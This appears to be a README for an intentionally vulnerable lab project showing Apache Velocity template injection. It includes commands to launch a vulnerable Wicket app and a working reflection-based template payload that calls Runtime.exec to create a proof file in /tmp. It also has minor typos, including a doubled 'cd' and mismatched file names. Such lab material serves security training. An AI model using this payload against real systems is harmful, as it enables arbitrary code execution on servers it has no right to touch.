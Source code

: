 # Vuln Velocity #

## What is Apache Velocity? ##
Velocity is a Java-based template engine. It permits anyone to use a simple yet powerful template language to reference objects defined in Java code.

## What can go wrong? ##
Apache velocity can be used or configured wrong. Attacker can execute arbitrary code using apache velocity.

## Vuln Velocity Projects: ##

1. vuln-velocity-wicket
2. vuln-velocity-liferay

## Vuln Velocity Wicket ##

You can start vulnerable wicket project on cli:

```
cd cd vuln-velocity-wicket
mvn clean install 
java -jar target/dependency/jetty-runner.jar target/*.war
```

1. Visit local URL http://127.0.0.1:8080/
2. Paste velocity exploit code into wicket veloctiy editor.
3. Press update button.
4. Velocity expoit creates a new file velocity-poc.txt in /tmp

```
#set($start = "")
#set($classLoaderMethod =$start.getClass().getClass().getDeclaredMethod("getClassLoader", null))
$classLoaderMethod.setAccessible(true)
#set($appClassLoader=$classLoaderMethod.invoke(${persons.get(0).getClass()},null))


#set($runtTimeClass = $appClassLoader.loadClass("java.lang.Runtime"))
#set($runtimedMethod = $runtTimeClass.getDeclaredMethod("getRuntime", null))
#set($runtimedMethodExecuted = $runtimedMethod.invoke($runtTimeClass, null))
#set($stringClass = $appClassLoader.loadClass("java.lang.String"))
$runtimedMethodExecuted.getClass().getDeclaredMethod("exec", $stringClass).invoke($runtimedMethodExecuted, "touch /tmp/velocity-rce-poc.txt")
```

## Vuln Velocity Lifery ##

Coming soon
